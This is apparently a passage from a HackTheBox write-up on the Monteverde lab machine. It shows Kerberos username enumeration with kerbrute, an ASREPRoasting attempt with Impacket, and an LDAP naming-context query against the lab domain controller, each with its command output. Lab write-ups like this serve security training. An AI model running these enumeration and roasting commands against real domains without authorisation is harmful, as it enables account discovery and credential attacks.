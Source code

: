 

## Kerberos

Use kerbrute to validate user list:

```bash
sudo /opt/kerbrute_linux_amd64 userenum --dc 10.10.10.172 -d MEGABANK.LOCAL -o kerbrute-user-enum /home/kali/Downloads/HackTheBox/Monteverde/userslist

2024/06/29 15:44:26 >  [+] VALID USERNAME:       svc-ata@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       mhope@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       SABatchJobs@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       svc-bexec@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       AAD_987d7f2f57d2@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       svc-netapp@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       dgalanos@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       roleary@MEGABANK.LOCAL
2024/06/29 15:44:26 >  [+] VALID USERNAME:       smorgan@MEGABANK.LOCAL
```

ASREPRoasting with Impacket:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py MEGABANK.LOCAL/ -dc-ip 10.10.10.172 -usersfile userslist -no-pass -request -outputfile kerberos-users-found
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User AAD_987d7f2f57d2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mhope doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SABatchJobs doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-ata doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-bexec doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-netapp doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dgalanos doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User roleary doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User smorgan doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## LDAP Enumeration:

Extract base naming contexts:

```bash
ldapsearch -x -H ldap://10.10.10.172 -s base namingcontexts 
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=MEGABANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=MEGABANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=MEGABANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=MEGABANK,DC=LOCAL

# search result
search: 2
result: 0 Success

```